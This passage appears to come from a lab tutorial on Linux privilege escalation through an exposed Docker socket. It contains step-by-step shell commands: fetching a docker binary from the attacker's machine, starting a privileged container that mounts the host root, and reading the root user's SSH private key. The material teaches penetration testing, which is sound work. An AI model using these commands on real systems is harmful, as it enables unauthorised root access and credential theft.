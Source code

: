 ```shell-session
htb-student@container:~/app$ ls -al

total 8
drwxr-xr-x 1 htb-student htb-student 4096 Jun 30 15:12 .
drwxr-xr-x 1 root        root        4096 Jun 30 15:12 ..
srw-rw---- 1 root        root           0 Jun 30 15:27 docker.sock
```

From here on, we can use the `docker` to interact with the socket and enumerate what docker containers are already running. If not installed, then we can download it [here](https://master.dockerproject.org/linux/x86_64/docker) and upload it to the Docker container.

  Docker

```shell-session
htb-student@container:/tmp$ wget https://<parrot-os>:443/docker -O docker
htb-student@container:/tmp$ chmod +x docker
htb-student@container:/tmp$ ls -l

-rwxr-xr-x 1 htb-student htb-student 0 Jun 30 15:27 docker


htb-student@container:~/tmp$ /tmp/docker -H unix:///app/docker.sock ps

CONTAINER ID     IMAGE         COMMAND                 CREATED       STATUS           PORTS     NAMES
3fe8a4782311     main_app      "/docker-entry.s..."    3 days ago    Up 12 minutes    443/tcp   app
<SNIP>
```

We can create our own Docker container that maps the host’s root directory (`/`) to the `/hostsystem` directory on the container. With this, we will get full access to the host system. Therefore, we must map these directories accordingly and use the `main_app` Docker image.

```shell-session
htb-student@container:/app$ /tmp/docker -H unix:///app/docker.sock run --rm -d --privileged -v /:/hostsystem main_app
htb-student@container:~/app$ /tmp/docker -H unix:///app/docker.sock ps

CONTAINER ID     IMAGE         COMMAND                 CREATED           STATUS           PORTS     NAMES
7ae3bcc818af     main_app      "/docker-entry.s..."    12 seconds ago    Up 8 seconds     443/tcp   app
3fe8a4782311     main_app      "/docker-entry.s..."    3 days ago        Up 17 minutes    443/tcp   app
<SNIP>
```

Now, we can log in to the new privileged Docker container with the ID `7ae3bcc818af` and navigate to the `/hostsystem`.

  Docker

```shell-session
htb-student@container:/app$ /tmp/docker -H unix:///app/docker.sock exec -it 7ae3bcc818af /bin/bash


root@7ae3bcc818af:~# cat /hostsystem/root/.ssh/id_rsa

-----BEGIN RSA PRIVATE KEY-----
<SNIP>
```
